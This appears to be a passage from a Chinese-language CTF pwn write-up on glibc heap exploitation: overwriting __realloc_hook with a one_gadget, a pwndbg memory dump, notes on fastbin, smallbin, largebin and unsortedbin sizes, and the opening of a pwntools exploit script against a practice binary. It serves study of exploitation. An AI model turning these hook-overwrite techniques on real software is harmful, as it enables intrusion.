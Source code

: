 指向了的确是在任意写的地方

我们此时可以往里面写onegadget了此时还需要用realloc压栈

x/32gx realloc_hook

这样看 push 压栈 压入寄存器的都可以

```
Undefined command: "0x7ffff7dd1b78".  Try "help".
pwndbg> x/32gi __realloc_hook
   0x7ffff7a92a70 <realloc_hook_ini>:	push   r15
   0x7ffff7a92a72 <realloc_hook_ini+2>:	push   r14
   0x7ffff7a92a74 <realloc_hook_ini+4>:	push   r13
   0x7ffff7a92a76 <realloc_hook_ini+6>:	push   r12

```

### bin大小范围

fastbin大小范围0x20~0x80

largebin大于等于1024字节（0x400）的chunk称之为large chunk

smallbin小于1024字节（0x400）的chunk称之为small chunk，small bin就是用于管理small chunk的。

unsortedbin当释放较小或较大的chunk的时候，如果系统没有将它们添加到对应的bins中，系统就将这些chunk添加到unsorted bin中

exp

```python
from pwn import *
#from LibcSearcher import *
#r=remote('node4.buuoj.cn',27823)
r=process('chunk1')
libc=ELF('./libc-2.23.so')
#libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level="debug"

def add(size):
    r.recvuntil('choice: ')
    r.sendline('1')
    r.recvuntil('size:')
    r.sendline(str(size))

def edit(index,size,data):
    r.recvuntil('choice: ')
    r.sendline('2')
    r.recvuntil('index:')
    r.sendline(str(index))
    r.recvuntil('size:')
    r.sendline(str(size))
    r.recvuntil('content:')
    r.send(data)
 
def delete(index):
    r.recvuntil('choice: ')
    r.sendline('3')
    r.recvuntil('index:')
    r.sendline(str(index))
 
def show(index):
    r.recvuntil('choice: ')
    r.sendline('4')
    r.recvuntil('index:')
    r.sendline(str(index))

add(0x18)
```